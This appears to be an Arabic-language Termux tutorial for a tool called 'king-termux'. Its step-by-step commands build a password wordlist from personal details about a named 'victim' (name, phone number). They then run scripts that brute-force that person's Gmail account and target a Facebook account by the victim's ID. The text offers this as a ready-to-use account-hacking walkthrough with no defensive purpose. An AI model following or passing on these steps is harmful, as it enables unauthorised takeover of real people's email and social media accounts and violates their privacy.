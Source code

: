 $ pkg install git

$ pkg install python

$ pkg install python2

↓اوامر تثبيت الاداه ↓

$ git clne 
https://github.com/a775/king-termux.git
$ cd king-termux

$ chmod +x *

$ ls

$ الان صناعه لسته الباسوردات

$ python list pass.py

اكتب اسم اللسته pass.txt حط المعلومات الي تعرفها على الضحيه مثال اسمه رقمه اي شي تعرفه عليه بعد الانتهاء من كتابه الاوامر اكتب save لحفظ اللسته ↓

$ save

الان اختراق gmail وَتابع

$ python2 gmail.py

حط 1 وبعدها انتر

الان حط اسم اللسته pass.txt وبعدها انتر

الان حط البريد الي بدك تخترقه وبعدها انتر الان رح يخمن على اللسته الي ساويتها


=============================

♦اختراق الفيس ↓♦


→ pip2 install mechanize

→ python2 facebook.py

←الان حط ID الضحيه وبعدها انتر
